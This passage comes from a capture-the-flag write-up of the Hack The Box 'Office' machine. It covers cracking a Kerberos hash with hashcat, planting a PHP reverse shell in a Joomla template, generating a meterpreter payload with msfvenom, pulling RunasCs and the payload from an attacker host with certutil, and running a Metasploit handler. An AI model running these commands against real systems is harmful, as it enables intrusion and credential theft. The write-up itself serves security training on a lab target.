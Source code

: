 ![Kerberos hash found](/images/HTB-Office/kerberos-hash.png)

Using hashcat we recover the password `playboy69`.

```
hashcat -m 19900 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

![Kerberos hash cracked with hashcat](/images/HTB-Office/hash-cracked.png)

## Initial Foothold

With the credentials `administrator:playboy69` we log into the Joomla dashboard, we are logged in as `Tony Stark`.

![Joomla Dashboard](/images/HTB-Office/joomla-dashboard.png)

As is usual with CMS software, we can modify templates with some custom code. We exploit this to get a reverse shell. Go to `System` --> `Site Templates` --> click `Cassiopeia Details and Files` --> overwrite `error.php` with a PHP reverse shell which you can find on [revshells](https://www.revshells.com/) --> Save and Close --> finally visit `http://office.htb/templates/cassiopeia/error.php` to trigger the reverse shell.

On the listener we get a shell as `web_account`.

![Initial foothold, shell as web_account](/images/HTB-Office/shell-office.png)

### Shell as tstark

We cannot read the user flag with this account but we can switch to the `tstark` user. Since we already have the correct credentials we can use [runascs](https://github.com/antonioCoco/RunasCs) to access the account, we will use a meterpreter shell.

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP_ADDRESS> LPORT=<PORT_NUMBER> -f exe -o payload.exe
```

![malicious file generated with msfvenom](/images/HTB-Office/msfvenom-cmd.png)

After sending both files to the target we set up the handler in Metasploit.

```
certutil.exe -urlcache -split -f http://IP_ADDRESS:PORT/RunasCs.exe runascs.exe

certutil.exe -urlcache -split -f http://IP_ADDRESS:PORT/payload.exe payload.exe
```

```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost <IP_ADDRESS>
set lport <PORT_NUMBERS>
run
```
